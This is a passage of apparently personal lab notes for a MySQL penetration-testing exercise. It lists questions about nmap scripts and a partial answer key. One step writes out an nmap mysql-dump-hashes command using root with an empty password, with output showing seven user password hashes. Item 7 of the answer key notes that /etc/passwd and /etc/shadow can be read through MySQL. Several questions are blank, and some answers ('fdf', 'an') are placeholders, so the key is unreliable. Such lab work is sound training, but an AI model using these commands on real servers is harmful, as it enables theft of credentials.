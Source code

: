 ```
```
   
14.  Find the data directory used by mysql server using nmap script.
   
```

```
   
15.  Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
   
```

```
   
16.  Dump all user hashes using  nmap script.
   
```
nmap 192.117.106.3 --script mysql-dump-hashes.nse --script-args "username=root,password="""

3306/tcp open  mysql
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
```
   
17.  Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.
   
```

```
   

#### Answers
1. MySQL 5.5.62-0ubuntu0.14.04.1
2. mysql -h target_ip -u user_name 
3. 11
4. 10
5. mysql_schemadump
6. tmp, root, 2
7. 10, passwd, shadow, group, mysql, hosts, hosts.allow, hosts.deny, issue, fstab, version
8. fdf
9. fdf
10. an
11. It's allowed



Come back to, too many connection errors

#### Note: 
setg - sets the value to a global variable